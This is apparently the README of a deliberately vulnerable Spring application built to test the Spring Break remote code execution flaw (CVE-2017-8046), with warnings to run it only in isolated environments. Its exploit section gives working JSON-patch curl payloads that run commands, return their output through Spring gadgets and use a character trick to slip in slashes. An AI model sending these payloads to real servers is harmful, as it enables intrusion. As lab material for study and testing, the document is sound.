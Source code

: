 # Spring Break Vulnerable Application

This is a vulnerable application to test the exploit for the **Spring Break** vulnerability (**CVE-2017-8046**).

## WARNING!

**This application contains serious security vulnerabilities. Run it at your own risk! It is recommended using a backed-up and sheltered environment (such as a VM with a recent snapshot and host-only networking). Do not upload this application to any Internet facing servers, as they will be compromised.**

***DISCLAIMER*: I do not take responsibility for the way in which any one uses this application (SpringBreakVulnerableApp). The only purpose of this application is to be a test scenario for the Spring Break exploit and it should not be used maliciously. If your server is compromised via an installation of SpringBreakVulnerableApp it is not my responsibility, it is the responsibility of the person(s) who uploaded and installed it.**

## Vulnerability info

* **CVE-ID**: CVE-2017-8046
* **Link**: [https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-8046](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-8046)
* **Description**: Malicious *PATCH* requests submitted to *spring-data-rest* servers in **Pivotal Spring Data REST** versions prior to **2.5.12**, **2.6.7**, **3.0 RC3**, **Spring Boot** versions prior to **2.0.0M4**, and **Spring Data** release trains prior to **Kay-RC3** can use specially crafted JSON data to run arbitrary Java code.

## Usage

The application can be launched with the following Maven command.

```
mvn spring-boot:run
```
To insert data you can use the following curl command.

```
curl -i -X POST -H "Content-Type: application/json" -d '{ "name" : "Test", "attribute" : "foo"}' http://hostname:port/entity
```

## Exploit

Probably the simplest exploit is the following request.

```
curl --request PATCH -H "Content-Type: application/json-patch+json" -d '[{ "op" : "replace", "path" : "T(java.lang.Thread).sleep(10000).x", "value" : "pwned" }]' "http://hostname:port/entity/1"
```

On Windows, the `calc.exe` process can be launched with the following request. Similar requests can be used to launch arbitrary commands.

```
curl --request PATCH -H "Content-Type: application/json-patch+json" -d '[{ "op" : "replace", "path" : "T(java.lang.Runtime).getRuntime().exec(\"calc.exe\").x", "value" : "pwned" }]' "http://hostname:port/entity/1/"
```

To obtain the output of launched commands, some "gadgets" offered by Spring Framework code can be used. Luckily, no external dependencies are required. For example, the result of `ipconfig` command can be retrieved with the following request.

```
curl --request PATCH -H "Content-Type: application/json-patch+json" -d '[{ "op" : "replace", "path" : "T(org.springframework.util.StreamUtils).copy(T(java.lang.Runtime).getRuntime().exec(\"ipconfig\").getInputStream(), T(org.springframework.web.context.request.RequestContextHolder).currentRequestAttributes().getResponse().getOutputStream()).x", "value" : "pwned" }]' "http://hostname:port/entity/1/"
```

On Windows, a `cmd /c dir` command, and other similar commands, can be launched with the following request. Please note the trick used to insert the slash char avoiding the explicit value (i.e. explicit slashes are replaced with dots befor the real parsing).

```
curl --request PATCH -H "Content-Type: application/json-patch+json" -d '[{ "op" : "replace", "path" : "T(org.springframework.util.StreamUtils).copy(T(java.lang.Runtime).getRuntime().exec(\"cmd \" + T(java.lang.String).valueOf(T(java.lang.Character).toChars(0x2F)) + \"c dir\").getInputStream(), T(org.springframework.web.context.request.RequestContextHolder).currentRequestAttributes().getResponse().getOutputStream()).x", "value" : "pwned" }]' "http://hostname:port/entity/1/"
```

A Java program to exploit this vulnerability can be found [here](https://github.com/m3ssap0/spring-break_cve-2017-8046).

## Authors

* **Antonio Francesco Sardella** - *implementation* - [m3ssap0](https://github.com/m3ssap0)

## License

This project is licensed under the MIT License - see the **LICENSE.txt** file for details.

## Acknowledgments

* [Man Yue Mo](https://lgtm.com/blog/spring_data_rest_CVE-2017-8046_ql) the security researcher who discovered the vulnerability